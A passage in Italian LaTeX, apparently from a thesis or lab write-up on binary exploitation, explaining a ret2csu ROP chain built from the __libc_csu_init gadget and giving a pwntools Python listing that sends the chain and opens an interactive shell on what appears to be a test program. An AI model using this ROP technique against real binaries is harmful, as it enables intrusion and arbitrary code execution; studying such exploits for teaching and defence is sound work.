 Infatti, se \textbf{rbx} prima conteneva \textbf{zero}, dopo l'\textbf{add} conterrà 1, e confrontandosi con \textbf{rbp} che conteneva già \textbf{uno}, risulteranno uguali evitando di fatto la \textbf{jne}.\\
L'ultimo registro rimasto era \textbf{r15}, che a differenza degli altri conteneva l'indirizzo del puntatore al gadget trovato nelle prime fasi del test, in quanto l'istruzione \textbf{call} avrebbe sfruttato solamente il suo di contenuto, essendo \textbf{rbx} inizialmente nullo.\\
Come ultimo passaggio per la creazione dell'exploit venne aggiunta la parte finale della \textbf{ROP chain}, ossia quella contenente la chiamata al primo gadget e alla \textbf{secret\_function}():
\begin{lstlisting}[language=Python, label=rop1-csu, caption={Prima sequenza della \textbf{ROP chain} che sfrutta il secondo gadget trovato in \textbf{\_\_libc\_csu\_init}().}, style =Python]
rop.raw(csu_gadget_compl)                 # riportato sopra
rop.raw(p64(0x00) * 7)                    # add rsp, 8; rbx = 0x00; rbp = 0x00;  
                                          # r12 = 0x00; r13 = 0x00; r14 = 0x00; 
                                          # r15 = 0x0;
rop.call("change_username")               # chiamata a secret_function

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
p.interactive()
\end{lstlisting}
Una volta terminato l'attacco, il risultato nel suo complesso fu la corretta esecuzione di una \textit{shell}.

